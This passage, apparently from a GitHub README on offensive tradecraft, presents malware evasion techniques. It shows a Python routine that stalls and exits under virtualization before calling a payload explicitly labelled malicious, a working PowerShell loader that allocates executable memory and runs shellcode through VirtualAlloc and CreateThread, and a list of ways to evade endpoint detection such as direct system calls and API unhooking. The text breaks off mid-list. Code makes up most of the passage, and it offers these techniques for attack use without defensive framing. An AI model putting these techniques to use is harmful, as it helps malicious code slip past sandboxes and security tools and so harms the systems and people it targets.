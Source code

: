 ### ⏱️ Timing-Based Evasion
```python
# Sleep-based sandbox evasion
import time
import random

def sandbox_evasion():
    # Sleep for random duration
    sleep_time = random.randint(60, 300)  # 1-5 minutes
    time.sleep(sleep_time)
    
    # Check for virtualization
    try:
        with open('/proc/cpuinfo', 'r') as f:
            if 'hypervisor' in f.read().lower():
                exit()  # Exit if virtualized
    except:
        pass
    
    # Proceed with malicious activity
    execute_payload()
```

</div>

<div>

## 🕵️ Behavioral Evasion

### 🔀 Process Injection Techniques
```powershell
# PowerShell process injection
$code = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

Add-Type -MemberDefinition $code -Name "Win32" -Namespace Win32Functions
$shellcode = [byte[]](0x90,0x90,0x90,0x31,0xc0,0x50,0x68)
$addr = [Win32Functions.Win32]::VirtualAlloc(0,[Math]::Max($shellcode.Length,0x1000),0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $addr, $shellcode.length)
$thread = [Win32Functions.Win32]::CreateThread(0,0,$addr,0,0,0)
```

### 🔍 EDR Evasion
```yaml
Common EDR Evasion Techniques:
  API Hooking Bypass:
    - Direct system calls
    - API function unhooking
    - Alternative API usage
    - Manual DLL loading

  Behavioral Analysis Evasion:
    - Legitimate process mimicking
    - Gradual activity execution
    - Environmental checks
    - User interaction requirements

  Memory Analysis Evasion:
```